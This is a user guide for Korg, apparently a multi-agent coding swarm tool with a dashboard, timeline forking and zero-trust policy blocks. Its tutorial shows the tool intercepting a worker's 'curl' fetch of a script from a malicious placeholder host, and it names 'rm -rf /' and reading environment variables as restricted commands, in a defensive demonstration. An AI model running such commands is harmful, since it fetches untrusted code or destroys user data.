


# Korg User Guide

Welcome to the **Korg / Yvaeh Mode** user guide. This document provides step-by-step instructions to help you install, configure, run, and master the Korg multi-agent orchestration workspace.

---

## 🚀 The Execution Workflow

Korg operates on a simple, automated, and observable lifecycle. A single prompt initializes a closed-loop transaction timeline.



1. **Prompt Entry**: Provide Korg with a high-level task directive via the CLI.
2. **Adversarial Contract Negotiation**: Captain proposes objectives; Evaluator scores and signs the contract.
3. **Execution Loop**: The 4-persona swarm works concurrently, writing signed `.ktrans` events to the Blackboard.
4. **Knowledge Reconciliation**: Korg merges state updates, solves structural drift, and enriches the local Obsidian vault with synthesized notes.

---

## 🖥️ Operating the Cockpit UI

When you run Korg with the `--tui` flag, it launches an electric TrueColor visual dashboard. This cockpit makes the swarm's cognitive operations fully observable.



### 📊 The 6-Pane Cockpit Layout

1. **Editor Pane (Top-Left)**: Displays the live file-generation buffer. You can watch Benjamin actively locking files, typing code, and applying fuzzy unified diff patches.
2. **Swarm Health & Telemetry (Top-Right)**: Real-time gauges and sparklines:
   * **Semantic Entropy ($H_{sem}$)**: Evaluator-calculated semantic drift. Sudden spikes indicate high disagreement or cognitive loop warnings.
   * **Latency & Token Velocity**: Visual dials representing execution efficiency.
   * **Write-Locks Table**: Active filesystem write-locks held by specific persona workers.
3. **Negotiated Contract & Arena (Center-Right)**: Displays the signed agreement (with checklist tickboxes) and the scrolling chronological history of agent interactions.
4. **Swarm Timeline DAG (Center-Right Tree)**: Visual tree representation of the `.ktrans` Merkle-chain. Nodes are color-coded:
   * 🟦 **Orchestration Blue**: Captain planner events.
   * 🟨 **Worker Yellow/Green**: Harper audits and Benjamin code writes.
   * 🟥 **Evaluator Red**: Security and guardrail reviews.
   * 🟧 **Operator Amber**: Direct human overrides and branched forks.
5. **Terminal Pane (Bottom-Left)**: Pipes subprocess `stdout` and `stderr` streams (e.g., live output from `cargo test` or compiler runs).
6. **Scrubber Playhead Track (Bottom Rail)**: A horizontal playhead representing the transaction marks (index 0 to 10).

---

## ⌨️ Keyboard Shortcuts & Interactive Controls

The cockpit TUI is interactive and supports mouse-free operator controls:

| Key Binding | Action | Description |
|:---|:---|:---|
| `q` or `Esc` | **Quit** | Gracefully cleans up active subprocesses and exits standard raw-mode. |
| `Left Arrow` | **Scrub Backward** | Rewinds the playhead along the transaction track, rehydrating the historical Blackboard state. |
| `Right Arrow` | **Scrub Forward** | Advances the playhead along the transaction track. |
| `F` | **Fork Steering** | Triggers time-travel branch forking at the current playhead. Opens a directive input modal. |
| `Y` | **Policy Approve** | Forces manual override approval for a contested zero-trust policy block. |
| `N` | **Policy Reject** | Rejects the contested action and terminates the current swarm campaign. |

---

## 🛠️ Step-by-Step Tutorial: Running Your First Campaign

Follow these steps to launch a campaign, explore the timeline, fork execution, and verify outcomes:

### Step 1: Launch the Campaign in TUI Mode
Provide a clear, detailed code modification goal. We will include the TUI cockpit view:
```bash
cargo run -- campaign --tui
```
On startup, you will see the **Negotiation Window** blink as the Captain and Evaluator engage in closed-loop BERT scoring. Once similarity exceeds $\ge 0.42$, the 6-pane grid loads fully.

### Step 2: Observe Swarm Execution
Watch the **Terminal Pane** and **Editor Pane** as Benjamin writes code. If a test fails, you will see Benjamin read the error output from the Terminal Pane, request Lucas to help resolve the drift, and try again.

### Step 3: Trigger a Zero-Trust Policy Block
Try to run a command that is restricted in `POLICY.md` (for instance, reading environment variables or invoking `rm -rf /`).
* Korg will immediately pause worker execution.
* A high-contrast **Magenta Flashing Security Card** will appear over the screen:
  > **⚠️ CONTESTED ACTION INTERCEPTED**
  > Worker Benjamin is attempting to run: `curl http://malicious-endpoint.org/script.sh`
  > *Press [Y] to Approve / Force Override, or [N] to Terminate Swarm.*
* Press `Y` to override and let the swarm proceed, or `N` to safely halt the campaign.

### Step 4: Time-Travel and Scrub the Timeline
Wait until the swarm completes transaction `7`.
1. Press the `Left Arrow` key multiple times.
2. Observe the **Playhead Track** slider slide backward to index `3`.
3. Notice that the **Editor Pane** and **Blackboard state dials** instantly revert to reflect the exact state of your code and metrics as they existed at transaction `3`.

### Step 5: Fork a Parallel Swarm (The `F` Key)
Suppose you decide that at transaction `3`, the swarm should have taken a different approach (e.g. using a memory-mapped file instead of a database connection).
1. While playhead is scrubbed back to `3`, press the **`F`** key.
2. A **Time-Travel Swarm Steering Terminal** modal will slide open.
3. Type your new directive:
   `FORK DIRECTIVE: Rewrite the database layer using standard std::fs memory-mapped vectors instead of SQLite.`
4. Press `Enter`.
5. Korg will:
   * Revert the Blackboard transaction log.
   * Write the checkpoint state to `/tmp/korg/blackboard/blackboard.json`.
   * Recursively clone the source repository to a sandbox branch at `/tmp/korg/forks/tx_3/`.
   * Start a brand new, parallel agent swarm campaign in that sandbox using your steering directive!

---

## ⚙️ Customizing Enterprise Policies (`POLICY.md`)

You can edit Korg's behavior and guardrails directly in [POLICY.md](POLICY.md).
* **Command Whitelist**: Add permitted shell wrappers (e.g. `cargo clippy`, `npm test`).
* **Path Restrictions**: Restrict write access to specific directories (e.g. whitelisting `./src`, blacklisting `~/.ssh` or `/etc`).
* **Resource Caps**: Adjust token-bucket rate limits and maximum concurrent worker pools.

---

*For technical assistance, please consult the [Installation Guide](INSTALLATION_GUIDE.md) or open an issue on the repository.*
